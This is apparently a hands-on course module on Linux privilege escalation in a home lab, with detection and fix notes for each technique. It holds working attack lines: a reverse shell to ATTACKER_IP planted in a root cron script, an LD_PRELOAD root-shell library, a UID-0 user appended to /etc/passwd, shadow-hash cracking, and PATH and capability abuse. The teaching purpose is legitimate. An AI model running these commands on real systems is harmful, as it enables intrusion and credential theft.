Privilege Escalation & CTF Capstone
You landed a shell in Session 5. Most of them were low-privilege. This is where you become root and SYSTEM — then prove the whole chain on a capstone.
Today's agenda
| Block | What we do | Format | Min |
|---|---|---|---|
| 1 | Where we left off — your foothold record is today's raw material | Theory | 6 |
| 2 | Lab pre-flight — low-priv shells ready, linPEAS/winPEAS staged | Hands-on | 5 |
| 3 | Privilege escalation — the concept + the enumeration loop | Theory | 8 |
| — Half A · Linux privilege escalation — | |||
| 4 | The Linux privesc surface — where root leaks | Theory | 8 |
| 5 | linPEAS — automated enumeration | Theory | 7 |
| 6 | Lab 1 — SUID binary + GTFOBins → root | Hands-on | 15 |
| 7 | sudo & cron abuse — the mechanism | Theory | 8 |
| 8 | Lab 2 — sudo misconfig / writable cron → root | Hands-on | 14 |
| — Half B · Windows privilege escalation — | |||
| 9 | The Windows privesc surface — services, tokens, misconfig | Theory | 8 |
| 10 | Token abuse — SeImpersonate → SYSTEM (the mechanism) | Theory | 8 |
| 11 | Lab 3 — service misconfig / potato → SYSTEM | Hands-on | 15 |
| 12 | winPEAS + Mimikatz — dumping LSASS | Theory | 9 |
| — | Break | — | 10 |
| 13 | Lab 4 — Mimikatz: dump passwords, hashes & tickets | Hands-on | 12 |
| — Steganography · capstone · defence · deliverable — | |||
| 14 | Steganography — hiding data in plain sight | Theory | 7 |
| 15 | Lab 5 — steghide / stegseek + NTFS ADS (hide, extract, detect) | Hands-on | 10 |
| 16 | The capstone — the whole kill chain on one machine | Theory | 6 |
| 17 | Lab 6 — Capstone A: DoubleTrouble (web → stego → shell → root) | Hands-on | 25 |
| 18 | Lab 7 — Capstone B: Blackpearl (DNS → CMS → SUID → root) | Hands-on | 25 |
| 19 | The privesc SOC flip — what elevation writes to the logs | Defender | 6 |
| 20 | Lab 8 — write the privesc detection rule (signature exercise) | Hands-on | 16 |
| 21 | Lab 9 — the engagement report (the whole S2–S6 chain) | Hands-on | 14 |
| 22 | Where the diploma goes next — System Hacking complete | Theory | 5 |
| 23 | Knowledge check · practice range · homework | Wrap-up | 18 |
Two things. A complete engagement report — the whole kill chain on your capstone machine: recon, the way in, the privilege escalation, proof of root/SYSTEM, and a remediation line per finding. And one working privilege-escalation detection rule (Sigma / SPL / KQL) from evidence you generate. The report is the capstone of the entire offensive half of the diploma.
Everything today runs against your own host-only lab and the capstone VMs you deploy. Dumping LSASS, abusing SUID, or escalating to root on any host you do not own is a criminal offence. The lab hands you the target and the authorisation; that authorisation does not travel.
Privilege escalation is loud: a low-priv user suddenly holding SYSTEM privileges (4672), a new service installed to run your payload (7045), a process reaching into LSASS (Sysmon 10). So every escalation today carries its SOC flip, and the session ends with you writing the detection rule from evidence you generated by escalating yourself.
Whose Shell Is It? Now Make It root.
Session 5 ended with a foothold record. Its most important column — "landed as" — is exactly what today starts from.
You finished Session 5 with a shell on each host and the user context you landed as. A few said SYSTEM/root — those hosts are done. Most said a low-privilege user. Every one of those low-priv rows is a privilege-escalation job for today. We do not re-teach getting the shell — we take the shell you have and make it root.
The kill chain — the last offensive link
Low-privilege user → root / Administrator / SYSTEM. The most common and most dangerous move — it is the difference between "a foothold" and "the box is ours." This is 90% of today.
Same privilege level, another user's resources. Reading another user's files, reusing their credentials, stepping sideways to reach an account that can go vertical. Often the setup for the vertical jump.
Getting in is access; getting root is control. Everything today turns the first into the second — and the capstone proves you can do the whole chain unaided.
Pre-flight: A Low-Priv Shell, and the Enumeration Kit
You need a shell to escalate from. Restore one from Session 5 and stage the enumeration tools.
Privilege escalation starts from an existing foothold. If you cannot reproduce a low-priv shell, you have nothing to escalate. Restore one from your Session 5 foothold record and make sure the enumeration scripts are on the target.
-
Get a low-privilege shell on a target from your S5 foothold record (or reproduce one quickly).
🟢 On the victim (target)
# e.g. a low-priv shell on the Linux target, or win10\lab on Windows id # Linux: uid=1000(lowuser) ... whoami # Windows: win10-tgt01\lab✓ Verification
- You have a working shell as a non-root / non-admin user
-
Stage the enumeration scripts (transfer to the target; keep them handy).
🔴 Kali + 🟢 victim — follow the comments
# Linux (on Kali, serve; on target, fetch): python3 -m http.server 8000 # Kali wget http://192.168.56.101:8000/linpeas.sh -O /tmp/linpeas.sh ; chmod +x /tmp/linpeas.sh # Windows: certutil -urlcache -f http://192.168.56.101:8000/winPEASx64.exe wp.exe✓ Verification
- linpeas.sh on the Linux target; winPEASx64.exe on the Windows target
-
Snapshot the capstone VMs before you start (DoubleTrouble, Blackpearl) so a team can revert cleanly.
✓ Verification
- Both capstone VMs imported, host-only, snapshotted pre-s6
Enumeration scripts touch a lot of files and are noisy — exactly the kind of thing the SOC-flip page covers. In the lab that is fine; on a real engagement you would be far more selective. Note where you dropped them so you can clean up.
The Enumeration Loop: Look, Identify, Abuse
Privilege escalation is not a trick you memorise — it is a loop you run. Enumerate the host, spot one thing out of place, abuse it.
There are hundreds of privesc "tricks" and you will forget most of them. What you keep is the loop: systematically enumerate everything the current user can see, compare it against "what should a normal user have," and abuse the one thing that is wrong. linPEAS/winPEAS automate the looking — the loop is the thinking.
All session long: 🔴 RED = your attacker machine (Kali) — build payloads, host files, listen, crack. 🟢 GREEN = the victim / target — enumerate, exploit, and land your shell. Every terminal and every command block below carries its colour.
1 · ENUMERATESee everything this user can
Who am I, what can I run, what is installed, what is scheduled, what is writable, what version is the kernel. Do it by hand first (id, sudo -l, find / -perm -4000), then let linPEAS/winPEAS sweep the rest. You cannot exploit what you have not seen.
2 · IDENTIFYSpot the one thing that is wrong
Compare what you found against what a normal user should have. A SUID binary that should not be one, a script root runs that you can write, a service you can restart, a token privilege you should not hold. linPEAS colours the leads red/yellow — but you decide which is real.
3 · ABUSETurn the misconfig into root
Exploit the one finding. GTFOBins for a SUID/sudo binary, a payload into a writable cron script, a potato for a token privilege. This is where the specific technique lives — but it only works because steps 1–2 found the target.
4 · VERIFYConfirm and record
id = uid=0(root), or whoami = nt authority\system. Prove it, then record it. If you are not root yet, you are not done — loop again, now with everything the last pass taught you (new files, new creds, a new user to pivot to).
id # who am I, what groups
sudo -l # what can I run as root without a password?
find / -perm -4000 2>/dev/null # every SUID binary on the boxYou should see: three findings in ten seconds: your groups, any sudo rights, and the full SUID list. Most Linux privesc starts in exactly one of these three outputs.
Enumeration is 90% of privilege escalation. The exploit is a one-liner once you have found the target — finding the target is the whole skill. Run the loop; do not guess.
The Linux Privesc Surface — Where root Leaks
Six places a Linux box hands root to a user who enumerated properly. Learn the map and linPEAS output stops being noise.
linPEAS prints hundreds of lines. Without a mental map you drown in it. Here are the six categories that actually give root — click each for what to look for and how it is abused. Every Linux privesc you meet, in the labs and the capstone, is one of these.
SUID / SGIDRuns as the owner, not you
A binary with the SUID bit runs as its owner (often root), whoever launches it. Find them: find / -perm -4000 2>/dev/null. If one is in GTFOBins (e.g. find, vim, nmap, bash, cp), a one-liner spawns a root shell. Lab 1.
sudo -lWhat you may run as root
sudo -l lists commands you can run via sudo — sometimes without a password. If any is in GTFOBins (less, vi, awk, python…), it breaks out to a root shell. (ALL) NOPASSWD: /usr/bin/vim is game over.
cronroot runs a script you can write
A cron job runs as root on a schedule. If the script it runs (or a directory in its path) is writable by you, put your payload in it and wait — it executes as root. Check cat /etc/crontab and ls -la the scripts. Lab 2.
writable PATH / filesHijack a command
If a root process calls a command by name (not full path) and you can write earlier in its PATH, you plant a malicious binary of that name. Also: a world-writable /etc/passwd or a writable script root sources.
capabilitiesSUID's finer-grained cousin
File capabilities grant slices of root power without the SUID bit. getcap -r / 2>/dev/null. cap_setuid on python or perl = spawn a root shell directly. Easy to miss because they are not SUID.
kernel exploitsThe last resort
An old kernel (uname -a) may have a public local-root exploit (DirtyCow, DirtyPipe, PwnKit). Powerful but risky — they can panic the box. Try misconfigs first; reach for a kernel exploit only when nothing else works.
find / -perm -4000 2>/dev/null # SUID
sudo -l # sudo rights
getcap -r / 2>/dev/null # capabilitiesYou should see: the three highest-yield checks on the whole box. If any SUID/sudo entry appears on GTFOBins, you are one line from root — which is exactly Lab 1.
GTFOBins (gtfobins.github.io) is the lookup table for "this binary is SUID / I can sudo it — how do I get a shell?" Half of Linux privesc is: find the binary, look it up, paste the one-liner.
linPEAS — the Enumeration Sweep
You will never enumerate a box by hand as thoroughly as linPEAS does in ninety seconds — the skill is reading its colours and triaging fast.
Manual checks catch the top vectors — but a box holds hundreds of privesc-relevant facts. linPEAS checks them all in ~90 seconds and colour-codes the results, so your job shifts from finding to judging.
linPEAS is a metal detector swept across the whole beach. It beeps everywhere, but loudest on real targets — you don't dig every beep, you dig where it beeps red on yellow.
Read the colours — where to dig
RED on YELLOW = 95% a privesc vector (a writable cron, an exploitable SUID) — start here. RED = interesting, worth a look. Plain = context. Work top-down: SUID → sudo → cron → capabilities → writable files → kernel.
Lab — run linPEAS and triage
# serve it from Kali: python3 -m http.server 8000
wget http://ATTACKER_IP:8000/linpeas.sh -O /tmp/linpeas.sh # or: curl -o
chmod +x /tmp/linpeas.sh- Run it and keep a copy to grep.🟢 On the victim (target)
/tmp/linpeas.sh | tee /tmp/linpeas.out # quieter, targeted run on sensitive boxes: /tmp/linpeas.sh -o SysI,Devs,AvailSoft,Proc,Var/tmp/linpeas.sh | tee /tmp/linpeas.out [+] Interesting Files - SUID /usr/bin/find (95%% PE vector) [+] Sudo -l (ALL) NOPASSWD: /usr/bin/vimRed-on-yellow lines are the leads — note them, don't read every line.✓ Verification
- A full colour-coded report, and /tmp/linpeas.out saved for grepping
- Jump straight to the highlighted vectors.🟢 On the victim (target)
grep -iE "SUID|sudo|crontab|Writable|Capabilities|Highlighted" /tmp/linpeas.outgrep -iE "SUID|sudo|Capabilities" /tmp/linpeas.out /usr/bin/find (SUID) (ALL) NOPASSWD: /usr/bin/vim /usr/bin/python3 = cap_setuid+epThree real vectors on one screen — that's the shortlist.✓ Verification
- A shortlist of the box's real vectors, not a wall of text
- Confirm one by hand — linPEAS flags, it does not prove.🟢 On the victim (target)
ls -la /usr/bin/find # verify the SUID bit is really set # then take it to its technique page (SUID / sudo / cron / capabilities ...)✓ Verification
- One flagged vector confirmed by hand and ready to abuse on its technique page
It reads a huge number of files and spawns many processes in seconds — a burst of execve and file access from one user is itself a detection signal (auditd / EDR). On a real engagement, enumerate far more selectively.
For Windows, winPEAS (same suite) sweeps services, tokens, registry, unattended files and installed software — colour-coded the same way. Learn to read the colours once; it transfers to Half B.
A ranked shortlist of the box's real privesc vectors in ~90 seconds. linPEAS tells you where to look; the technique pages tell you how to abuse — and you always confirm by hand.
SUID Binaries — a File That Runs as root
A SUID binary runs as its owner, not you — usually root. Find one, and either GTFOBins gives you a shell or a writable password file hands you a root account.
It needs no exploit and no CVE — just a permission bit an admin set for convenience. It appears in almost every Linux privesc room and real engagement, and the fix is one command — which is exactly why it keeps being left wrong.
Normally a program runs with your privileges. The SUID bit makes it run with the file owner's privileges instead. Think of a keycard that always opens as the manager's, whoever taps it — if that program can read files or spawn a shell, it does so as root. Confirm with id: euid=0(root) is the win.
A · shellFastest when the binary is on GTFOBins
If the SUID binary has a GTFOBins entry that spawns a shell (bash, find, vim, nmap…), paste its one-liner with -p to keep the root euid. Instant root shell.
B · readWhen the binary only reads files
A SUID reader (nano, cat, less, cp) can read root-only files. Read /etc/shadow, combine with /etc/passwd via unshadow, and crack the root hash with John.
C · writeWhen you can write /etc/passwd
If a SUID editor can write /etc/passwd (or it is world-writable), add a line for a new user with UID 0 and a password hash you generate — then su to it and you are root. No cracking needed.
Step 1 — Find & confirm
find / -perm -4000 -type f 2>/dev/null
# the s in -rwsr-xr-x is the SUID bit
ls -la /usr/bin/<binary>
✓ Verification
- A list of SUID binaries; at least one is a GTFOBins target or a file reader/editor
Route A & B — read the hashes, crack root
- Use the SUID reader to read the password files.
🟢 On the victim (target)
# nano is SUID -> it reads root-owned files as root # gtfobins.github.io/gtfobins/nano/#file-read nano /etc/shadow # copy the root: line nano /etc/passwd # copy the whole file
GTFOBins. The nano entry shows the exact file-read invocation — because nano runs as root, it opens /etc/shadow that your user normally can't. 
Root-only data. Both files, readable through the SUID binary — the hashes in /etc/shadow are the prize. ✓ Verification
- You have the root line from /etc/shadow and the matching /etc/passwd
- Combine and crack with John.
🔴 On your Kali (attacker)
# on your Kali box unshadow passwd.txt shadow.txt > crack.txt john --wordlist=/usr/share/wordlists/rockyou.txt crack.txt john --show crack.txt # root's cleartext password
unshadow. Merges the two files into John's input format; John then recovers root's password if it's in the wordlist. ✓ Verification
- John prints root's password → su root → id shows uid=0
Route C — write your own root user (no cracking)
If the SUID binary can write /etc/passwd (or it's world-writable), skip cracking — add your own UID-0 user with a hash you control.
- Generate a password hash.
🟢 On the victim (target)
openssl passwd -1 -salt hacker Password123 # -> $1$hacker$........ (an MD5-crypt hash)
Make the hash. openssl passwd outputs a crypt hash you paste into /etc/passwd — you now know this account's password. - Append a UID-0 line and switch to it.
🟢 On the victim (target)
echo 'hacker:$1$hacker$........:0:0:root:/root:/bin/bash' >> /etc/passwd su hacker # Password123 id # uid=0(root)
The malicious line. hacker:…:0:0:… — the two zeros (UID:GID) make this account root-equivalent. su hacker Password: id uid=0(root) gid=0(root) groups=0(root) cat /root/root.txtuid=0 everywhere — a full root login, not just euid.
Root. su into the planted account — id confirms uid=0(root). Full control. ✓ Verification
- id shows uid=0(root); you can read /root and write anywhere
Detect: auditd on execve of SUID binaries by non-root; changes to /etc/passwd and /etc/shadow (file-integrity monitoring); a su to a brand-new account. Fix: find / -perm -4000 and chmod -s anything shell/read/write-capable; never SUID an editor or interpreter.
Root from one permission bit — three routes: shell (GTFOBins), read (crack the hash), write (add a UID-0 user). Always confirm with id → uid=0. The countermeasure is a single chmod -s.
Sudo Rights — Your Permission Slip to root
Every entry in sudo -l is a candidate. GTFOBins, a file read, or a kept LD_PRELOAD each turns one allowed command into a root shell.
Admins grant sudo for one small task and forget it. One wrong entry — a NOPASSWD editor, a kept environment variable — is a direct root shell. Always run sudo -l first.
sudo -l is your permission slip: it lists exactly what you may run as root. If any listed binary can spawn a shell (GTFOBins) or read/write a sensitive file, that permission becomes full root.
sudo -l # what may I run as root, and with a password or not?Route A - GTFOBins / file read
Look the binary up on GTFOBins under sudo. Example: sudo apache2 -f /etc/shadow leaks the file's first line (the root hash) through an error message.

Route B - LD_PRELOAD
If sudo -l shows env_keep+=LD_PRELOAD, compile a tiny shared library that spawns a shell and preload it into any NOPASSWD sudo command - the shell runs as root.

- Compile the payload library.🟢 On the victim (target)
// shell.c #include <stdlib.h> void _init(){ setgid(0); setuid(0); system("/bin/bash"); } gcc -fPIC -shared -o /tmp/shell.so shell.c -nostartfiles
Build. Compiled as a shared object; its _init() runs the moment it loads. - Preload it into a sudo command.🟢 On the victim (target)
sudo LD_PRELOAD=/tmp/shell.so <any-allowed-cmd> id # uid=0(root)sudo LD_PRELOAD=/tmp/shell.so apache2 id uid=0(root) gid=0(root)The library loads before the command, as root.
Root. sudo loads your library as root, its _init() fires, and you drop into a root shell. ✓ Verification
- id shows uid=0(root)
Detect: sudo commands with LD_PRELOAD/LD_LIBRARY_PATH set; sudo of shell-capable binaries by non-admins (auditd). Fix: remove env_keep, avoid NOPASSWD, never sudo an interpreter/editor.
Root from one sudo -l line - via GTFOBins, a file read, or LD_PRELOAD. The permission slip is the vulnerability.
Cron Jobs — root Runs Your Script
A scheduled job runs as root. If you can write the script it runs, or win a PATH/wildcard trick, your code executes as root on the next tick.
Cron jobs run on a schedule as root. If you can edit the script a job runs - or win a PATH/wildcard trick - your code runs as root without any exploit. You just wait.
A cron job is a robot that does a chore as root every minute. If you can rewrite the chore list (a writable script) or swap the tool it grabs (PATH), the robot runs your command as root.
cat /etc/crontab # scheduled jobs + their PATH
ls -la /path/to/script.sh # is the script writable by me?
Route A - writable script
- Find a root cron script you can write, and plant a reverse shell.🟢 On the victim (target)
ls -la /usr/local/bin/backup.sh # -rw-rw-rw- = writable echo 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1' >> /usr/local/bin/backup.sh
Writable + root-run. The script cron executes as root is writable by your user - append your payload. 
The payload. A reverse-shell one-liner added to the script; it runs on the next scheduled tick, as root. - Listen and wait for the tick.🔴 On your Kali (attacker)
nc -lvnp 4444 # on your Kali box - catch the root shellnc -lvnp 4444 listening on 4444 ... connect from target id uid=0(root) gid=0(root)Cron fires on schedule - the shell lands as root.
Root. The scheduled job ran your line as root and connected back. ✓ Verification
- A shell where id shows uid=0(root), arriving on the schedule
If the cron uses a relative command name and a writable PATH dir, plant a fake binary. If it runs tar/rsync * in a writable dir, drop files named like options (--checkpoint-action=exec) for a wildcard injection.
Detect: unexpected child processes of cron; edits to cron scripts (FIM); outbound connections from cron-spawned shells. Fix: tighten script/dir permissions, use absolute paths, avoid wildcards in root cron.
Root by editing something root runs on a timer. No exploit - just a writable file and patience.
Capabilities — SUID's Quieter Cousin
File capabilities grant slices of root with no SUID bit. cap_setuid on an interpreter is a direct root shell - and it hides from a SUID sweep.
Capabilities grant slices of root to a binary without the SUID bit - so they don't show up in a SUID sweep. One cap_setuid on python or perl is an instant root shell.
SUID gives a binary the whole root keyring; capabilities give it one specific key. cap_setuid is the key that lets a program set its UID to 0 - i.e. become root.
getcap -r / 2>/dev/null # list files with capabilities

- Look the binary up on GTFOBins under Capabilities and run its one-liner.🟢 On the victim (target)
# gtfobins.github.io/gtfobins/vim/#capabilities /usr/bin/vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh","sh","-c","reset; exec sh")'
GTFOBins. The Capabilities section gives the exact call that uses cap_setuid to drop to a root shell. getcap -r / 2>/dev/null /usr/bin/vim = cap_setuid+ep vim -c ':py3 os.setuid(0);os.execl(...)' id uid=0(root)No SUID bit anywhere - the capability alone is the win.
Root. The capability let the process set UID 0 and exec a shell. ✓ Verification
- id shows uid=0(root) from a non-SUID binary
Detect: audit capset/setuid by interpreters; inventory file capabilities. Fix: setcap -r <file> to strip caps from shell-capable binaries; never grant cap_setuid to python/perl/vim.
Root via a capability a SUID sweep would miss. Always run getcap -r / too.
PATH Hijacking — Hand root the Wrong Binary
When a root program calls a command by name, put a writable dir first in $PATH and plant a fake - root runs your code.
If a root program calls a command by name (not full path), the shell searches $PATH in order. Put a writable directory first, plant a fake binary of that name, and root runs your code.
PATH is a list of shops the system visits in order to find a tool. If you own the first shop, you hand it your counterfeit tool before it reaches the real one.
echo $PATH # writable dir early in the list?
find / -writable -type d 2>/dev/null # dirs you can write
- Prepend a writable dir and plant a fake command.🟢 On the victim (target)
cd /tmp echo '/bin/bash -p' > ps && chmod +x ps # fake "ps" = root shell export PATH=/tmp:$PATH
Own the first shop. /tmp is writable and now first in $PATH. 
The counterfeit. A file named exactly like the command the root program calls, made executable. - Run the root program - it grabs your fake command.🟢 On the victim (target)
/path/to/suid-program id # uid=0(root)export PATH=/tmp:$PATH /usr/local/bin/vuln (runs "ps" -> finds /tmp/ps) id uid=0(root)The program found your fake command first.
Root. The root program executed your planted binary. ✓ Verification
- id shows uid=0(root) after running the target program
Detect: execs from world-writable dirs (/tmp); processes with modified PATH. Fix: call commands by absolute path in privileged scripts; keep writable dirs out of root PATH.
